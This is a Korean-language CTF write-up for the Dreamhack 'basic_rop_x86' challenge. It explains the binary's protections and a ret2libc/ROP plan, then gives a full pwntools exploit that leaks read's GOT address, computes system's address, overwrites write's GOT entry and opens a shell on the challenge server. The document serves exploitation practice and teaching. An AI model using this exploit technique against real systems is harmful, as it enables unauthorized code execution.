


# basic_rop_x86

일단 문제 파일에 적용된 보호 기법을 확인한다.   
<br/>

   
32bit 바이너리 파일이며 보호기법은 Partial RELRO와 NX만 걸려있는 것을 알 수 있다.   
<br/>


exploit을 위한 과정은 다음과 같다.
1. ROP gadget을 구한다.
2. read 함수의 실제 주소를 구한다.
3. read 함수의 주소를 가지고 libc의 주소를 구한다.
4. libc 주소와 system 함수의 offset을 이용하여 system 함수의 주소를 계산한다.
5. .bss영역에 "/bin/sh"를 입력한다.
6. write 함수의 주소를 system 함수의 주소로 덮어씌운다.
7. system 함수로 바뀐 write 함수를 실행시킨다.   


<br/>

   
ROP gadget을 구해주고 다음과 같이 explit 코드를 작성해준다.   

```
from pwn import *

p = remote("host1.dreamhack.games", 9808)

e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')

read_plt = e.plt['read']
read_got = e.got['read']

write_plt = e.plt['write']
write_got = e.got['write']

pppr = 0x8048689
bss = 0x0804a040

payload = ""
payload += 'A'*72
payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(bss)
payload += p32(8)

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(write_got)
payload += p32(4)

payload += p32(write_plt)
payload += "AAAA"
payload += p32(bss)


p.send(payload)

sleep(0.3)

read_addr = u32(p.recv()[-4:])
libc_addr = read_addr - libc.symbols['read']
system_addr = libc_addr + libc.symbols['system']

p.send("/bin/sh\x00")

p.send(p32(system_addr))


p.interactive()
```
